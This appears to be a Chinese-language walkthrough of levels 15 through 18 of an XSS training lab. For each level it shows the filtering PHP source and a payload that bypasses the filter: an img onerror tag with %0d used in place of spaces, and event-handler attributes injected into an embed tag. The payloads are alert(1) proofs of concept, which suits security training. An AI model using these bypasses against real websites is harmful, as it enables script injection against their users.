 ```
/level15.php?src='level1.php?name=test&#60img src=1 onerror=alert(1)>'
```
# level-16
- 看源码

```
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str); 
$str3=str_replace(" ","&nbsp;",$str2); 
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("     ","&nbsp;",$str4);
echo .$str5.;
&#60img src=level16.png>
&#60?php
echo "&#60h3 align=center>payload的长度:".strlen($str5)."&#60/h3>";
```

- 分析源码可知，script，/，空格都转译了
- 用img标签，%0d或者%0a作为分隔符代替空格，paylaod如下

```
?keyword=test&#60img%0dsrc=1%0donerror=alert(1)> 
```

# level-17
- 源码

```
echo "&#60embed src=xsf01.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";

```
- &#60embed> 标签定义嵌入的内容，比如插件。
- 火狐浏览器不显示，我用谷歌可以成功
- payload

```
?arg01=a&arg02= onmouseover=alert(1)
```

- 理论上onclick也可以成功，但是直接，就跳转到错误界面了，没来得及显
- onmouseup 事件触发后，再触发 onclick 事件

# level-18
- 源码

```
"&#60?php
ini_set("display_errors", 0);
echo ""&#60embed src=xsf02.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
?>
```
- 分析源码和level-17没什么差异
- payload

```
?arg01=a&arg02=b%20onmouseout=alert(1)
```
